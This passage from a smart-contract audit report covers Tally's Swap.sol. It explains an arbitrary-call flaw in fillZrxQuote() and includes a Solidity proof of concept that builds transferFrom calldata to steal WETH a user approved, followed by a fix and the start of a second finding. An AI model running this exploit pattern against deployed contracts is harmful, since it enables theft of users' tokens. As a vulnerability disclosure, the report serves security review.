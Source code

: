 A call to an arbitrary contract with custom calldata is made in `fillZrxQuote()`, which means the contract can be an ERC20 token, and the calldata can be `transferFrom` a previously approved user.

##### Impact
The wallet balances (for the amount up to the allowance limit) of the tokens that users approved to the contract can be stolen.

##### PoC
Given:

*   Alice has approved 1000 WETH to `Swap.sol`;

The attacker can:
```solidity
TallySwap.swapByQuote(
    address(WETH),
    0,
    address(WETH),
    0,
    address(0),
    address(WETH),
    abi.encodeWithSignature(
        "transferFrom(address,address,uint256)",
        address(Alice),
        address(this),
        1000 ether
    )
)
```

As a result, 1000 WETH will be stolen from Alice and sent to the attacker.

This PoC has been tested on a forking network.

##### Recommendation
Consider adding a whitelist for `zrxTo` addresses.


**[Shadowfiend (Tally) confirmed](https://github.com/code-423n4/2021-10-tally-findings/issues/37)**

## [[H-02] Wrong calculation of `erc20Delta` and `ethDelta`](https://github.com/code-423n4/2021-10-tally-findings/issues/34)
_Submitted by WatchPug, also found by harleythedog_

[`Swap.sol` L200-L225](https://github.com/code-423n4/2021-10-tally/blob/c585c214edb58486e0564cb53d87e4831959c08b/contracts/swap/Swap.sol#L200-L225)

```solidity
function fillZrxQuote(
    IERC20 zrxBuyTokenAddress,
    address payable zrxTo,
    bytes calldata zrxData,
    uint256 ethAmount
) internal returns (uint256, uint256) {
    uint256 originalERC20Balance = 0;
    if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
        originalERC20Balance = zrxBuyTokenAddress.balanceOf(address(this));
    }
    uint256 originalETHBalance = address(this).balance;

    (bool success,) = zrxTo.call{value: ethAmount}(zrxData);
    require(success, "Swap::fillZrxQuote: Failed to fill quote");

    uint256 ethDelta = address(this).balance.subOrZero(originalETHBalance);
    uint256 erc20Delta;
    if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
        erc20Delta = zrxBuyTokenAddress.balanceOf(address(this)).subOrZero(originalERC20Balance);
```
